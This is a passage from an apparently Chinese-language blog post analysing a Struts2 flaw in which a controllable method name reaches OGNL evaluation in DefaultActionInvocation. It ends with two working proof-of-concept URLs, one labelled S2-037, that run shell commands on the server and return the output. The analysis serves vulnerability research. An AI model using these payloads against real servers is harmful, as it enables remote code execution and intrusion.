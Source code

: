 在struts2的所有intercepter调用完毕后，会去调用DefaultActionInvocation的invokeActionOnly函数

![image-20200520223603177](/images/talk_about_struts2/image-20200520223603177.png)

而invokeActionOnly会去调用`com.opensymphony.xwork2.DefaultActionInvocation#invokeAction`

![image-20200520223738228](/images/talk_about_struts2/image-20200520223738228.png)

在这个函数里，我们可以看到他将前面可控的methodName放进了`ognlUtil.getValue`，导致了OGNL表达式的执行

需要注意的是，在前面调用的interceptor里不能出现异常的情况，会导致无法执行到OGNL表达式执行的位置。这也就是为什么不能在开启`devMode`的情况下进行利用的原因。

### POC

```java
http://localhost:8080/showcase_war/orders/3!%23_memberAccess%3D%40ognl.OgnlContext%40DEFAULT_MEMBER_ACCESS%2C%23process%3D%40java.lang.Runtime%40getRuntime().exec(%23parameters.command%5B0%5D)%2C%23ros%3D(%40org.apache.struts2.ServletActionContext%40getResponse().getOutputStream())%2C%40org.apache.commons.io.IOUtils%40copy(%23process.getInputStream()%2C%23ros)%2C%23ros.flush()%2C%23xx%3D123%2C%23xx.toString.json?command=ifconfig

// S2-037
http://localhost:8080/showcase_war/orders/3!(%23_memberAccess%3D%40ognl.OgnlContext%40DEFAULT_MEMBER_ACCESS)%3F(%23process%3D%40java.lang.Runtime%40getRuntime().exec(%23parameters.command%5B0%5D)%2C%23ros%3D(%40org.apache.struts2.ServletActionContext%40getResponse().getOutputStream())%2C%40org.apache.commons.io.IOUtils%40copy(%23process.getInputStream()%2C%23ros)%2C%23ros.flush())%3Ad.json?command=ifconfig
```
